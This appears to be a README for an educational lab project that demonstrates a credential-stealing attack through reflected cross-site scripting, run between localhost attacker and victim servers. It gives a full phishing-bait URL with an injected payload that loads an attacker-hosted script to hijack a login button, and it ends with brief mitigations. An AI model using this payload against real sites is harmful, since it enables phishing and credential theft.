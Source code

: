 # Perform Man In The Middle (MITM) attack using Javascript

## Install yarn and dependencies through 'yarn' or 'npm'

I prefer yarn over npm, but npm can be used as well. Whenever you wish to execute the command just replace 'npm' with 'yarn'.

Install dependencies through yarn:  
`yarn install`

## Lite-Server

Upon executing `yarn install` command, it installs the `lite-server` package/library in the project (node_modules).

***Lite-Server*** as the name suggests is the very light web server with minimum execution facility, purely meant to display web pages.

## Configuration

***package.json*** consists of project management and tunning configuration. We have defined two lite-server for our purpose for attacker and victim. 


## Execute Hacker 'Lite-Server'

We have configured the project (in package.json) to execute the lite-server on port 3000, for the attacker, using command `yarn run lite-server` using the `bs-config.json`.

Screenshot:  
![Screenshot](HackerLiteServer.png)


## Execute Victim 'Lite-Server'

We have configured the project (in package.json) to execute the lite-server on port 4000, for the attacker, using command `yarn run lite-server-victim` using the `bs-config-victim.json`.

Screenshot:  
![Screenshot](VictimLiteServer.png)


## Set the bait for Victim

We will set the bait for the Victim by emailing the victim with the chance to win prize on the legitimate webserver domain by changing the values in the parameter. The legitimate webserver running for the domain localhost:4000. 

URL/Link:  
`http://localhost:4000/?Name=John%20Doe%20you%20have%20Big%20Bonanza%20Offer:%20%3Cinput%20type=%27button%27%20title=%27Big%20Bonanza%20Offer%27%20value=%27Scratch%20Card%27%20onclick=%22if(document.getElementById(%27SomeFlag%27)==undefined)%20{%20maliciousScript%20=%20document.createElement(%27script%27);%20maliciousScript.src%20=%20%27http://localhost:3000/ManInTheMiddelAttack.js%27;%20document.body.appendChild(maliciousScript);%20someFlag%20=%20document.createElement(%27SomeFlag%27);%20someFlag.id%20=%20%27SomeFlag%27;%20document.body.appendChild(someFlag);%20alert(%27You%20will%20get%20an%20email%20notification%20for%20the%20offer%27);%20setTimeout(%20function()%20{%20injectManInTheMiddleScript();%20}%20,%201000);%20}%20%22%20/%3E`

URL Explanation:  
- We have not changed the domain name at all. 
- The hack is place as the value for the parameter 'Name'.
- The value of the 'Name' Parameter is:
    * John Doe you have Big Bonanza Offer: <input type='button' title='Big Bonanza Offer' value='Scratch Card' onclick="if(document.getElementById('SomeFlag')==undefined) { maliciousScript = document.createElement('script'); maliciousScript.src = 'http://localhost:3000/ManInTheMiddelAttack.js'; document.body.appendChild(maliciousScript); someFlag = document.createElement('SomeFlag'); someFlag.id = 'SomeFlag'; document.body.appendChild(someFlag); alert('You will get an email notification for the offer'); setTimeout( function() { injectManInTheMiddleScript(); } , 1000); } " />
- The value gets embedded as an innerHtml within the page performing the exploit as follows:  
![Screenshot](TransformmedInnerHtml.png)  
- Upon clicking the ***bait*** link will gets a message:  
    * Behind the scene a Malicious javascript file get attached to the web page  
      ![Screenshot](ExploitClick.png)  
      ![Screenshot](ButtonClick.png)  
    * The login button click functionality is replaced by a function Malicious javascript, which executes the login button click along with sending the secret detail to the other link or url  
    * Loading Script:  
      ![Screenshot](ScriptLoaded.png)  
    * Malicious Script  
      ![Screenshot](SilentlyListen.png)  
    * Execution of Legit Code along with Malicious Code  
      ![Screenshot](MaliciousCodeExecution.png)


## Steps to overcome this attack

- Never execute any long URL without reading them correctly even though the domain is legit
- Web developers should prohibit the user or innerHTML to display HTML. As we have seen it could be hacked in real life.
